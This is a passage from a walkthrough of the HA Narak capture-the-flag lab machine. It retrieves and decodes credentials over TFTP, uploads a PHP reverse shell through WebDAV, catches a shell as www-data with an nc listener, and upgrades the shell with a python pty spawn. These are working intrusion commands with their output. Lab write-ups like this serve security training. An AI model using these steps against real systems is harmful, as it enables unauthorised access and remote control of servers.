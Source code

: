 ~~~
kali@kali:/data/HA_Narak/files$ tftp narak.box
tftp> get creds.txt
Received 22 bytes in 0.0 seconds
tftp> quit
kali@kali:/data/HA_Narak/files$ cat creds.txt | base64 -d
yamdoot:Swarg
~~~

We are now provided with credentials. However, I failed to authenticate against the SSH service.

## Webdav

Let's use the credentials to connect to the `/webdav` service instead. The webdav service doesn't contain any file yet.

~~~
kali@kali:/data/HA_Narak/files$ cadaver http://narak.box/webdav
Authentication required for webdav on server `narak.box':
Username: yamdoot
Password: Swarg
dav:/webdav/> ls
Listing collection `/webdav/': collection is empty.
dav:/webdav/> 
~~~

Let's upload a reverse shell (get it from [pentestmonkey](http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz) and don't forget to change your IP and port):

~~~
dav:/webdav/> put revshell.php 
Uploading revshell.php to `/webdav/revshell.php':
Progress: [=============================>] 100.0% of 5496 bytes succeeded.
dav:/webdav/> ls
Listing collection `/webdav/': succeeded.
        revshell.php                        5496  Oct  4 17:53
dav:/webdav/> 
~~~

Now, start a listener (`rlwrap nc -nlvp 4444`) and browse the reverse shell URL (http://narak.box/webdav/revshell.php). You should now have a reverse shell spawned to the listener window:

~~~
kali@kali:/data/HA_Narak/files$ rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [172.16.222.128] from (UNKNOWN) [172.16.222.155] 45460
Linux ubuntu 4.15.0-20-generic #21-Ubuntu SMP Tue Apr 24 06:16:15 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 08:56:54 up 41 min,  0 users,  load average: 0.00, 0.00, 0.08
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@ubuntu:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@ubuntu:/$ 
~~~
